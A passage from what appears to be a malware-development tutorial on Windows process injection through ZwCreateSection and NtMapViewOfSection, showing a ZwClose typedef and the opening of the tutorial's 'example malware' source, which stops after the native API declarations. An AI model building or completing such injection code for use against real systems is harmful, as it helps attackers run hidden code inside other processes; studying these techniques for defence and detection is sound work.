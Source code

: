 instead of `RtlCreateUserThread` for triggering payload.    

And another difference is we used `ZwClose` for close handles (clean up):    

```cpp
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);
```
![injection 4](./images/35/2022-01-16_23-47.png){width="80%"}    

So, the full source code of our example malware is:    
```cpp
/*
 * hack.cpp - code injection via 
 * ZwCreateSection, ZwUnmapViewOfSection
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/14/malware-injection-13.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);
```